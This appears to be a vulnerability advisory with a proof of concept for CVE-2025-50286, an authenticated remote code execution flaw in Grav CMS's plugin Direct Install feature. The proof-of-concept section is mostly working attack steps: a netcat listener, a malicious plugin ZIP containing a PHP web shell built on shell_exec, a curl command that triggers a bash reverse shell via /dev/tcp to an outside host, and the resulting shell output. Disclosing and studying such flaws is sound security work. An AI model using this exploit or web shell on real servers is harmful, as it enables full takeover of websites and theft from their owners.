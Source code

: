 # Grav CMS v1.7.48 / Admin Plugin v1.10.48 - Authenticated RCE via Plugin Upload (CVE-2025-50286)

Grav CMS v1.7.48 with Admin Plugin v1.10.48 is vulnerable to **Remote Code Execution (RCE)** via the "Direct Install" plugin upload feature, allowing authenticated administrators to execute arbitrary PHP code on the server.

## CVE ID

[CVE-2025-50286](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-50286)

## Summary

* **Type:** Authenticated Remote Code Execution (RCE)
* **Location:** `/admin/tools/direct-install` (Admin Panel > Tools > Direct Install)
* **Impact:** Arbitrary PHP code execution and potential full system compromise
* **Authentication Required:** Yes (Administrator access)
* **Affected Version:** Grav CMS v1.7.48 / Admin Plugin v1.10.48

## Proof of Concept

1. Prepare a listener:

   ```bash
   nc -lvnp 4444
   ```

2. Log in to the Grav Admin Panel as an administrator.
3. Navigate to `Tools > Direct Install`
4. Upload a malicious plugin ZIP (`evilplugin.zip`) structured as follows:

   ```
   evilplugin/
   ├── evilplugin.php         ← contains: shell_exec($_GET['cmd'])
   └── blueprints.yaml        ← minimal blueprint to pass validation
   ```

5. Trigger the reverse shell:

   ```bash
   curl --get --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/host.docker.internal/4444 0>&1'" http://<target>/
   ```

6. Reverse shell received:

   ```bash
   $ nc -lvnp 4444
   Listening on 0.0.0.0 4444
   Connection received on <target-ip>
   www-data@target:/var/www/html$ whoami
   www-data
   ```

## Affected Component

* Endpoint: `/admin/tools/direct-install`
* Functionality: Plugin upload and autoload without validation

## Tested On

* Debian 11
* Apache2 + PHP 7.4
* Grav CMS v1.7.48 (with Admin Plugin v1.10.48)

## Discoverer

[@binneko](https://github.com/binneko)

## References

* [Grav CMS GitHub](https://github.com/getgrav/grav)
* [CVE Record - CVE-2025-50286](https://cve.mitre.org)

## Disclaimer

For educational and defensive purposes only.
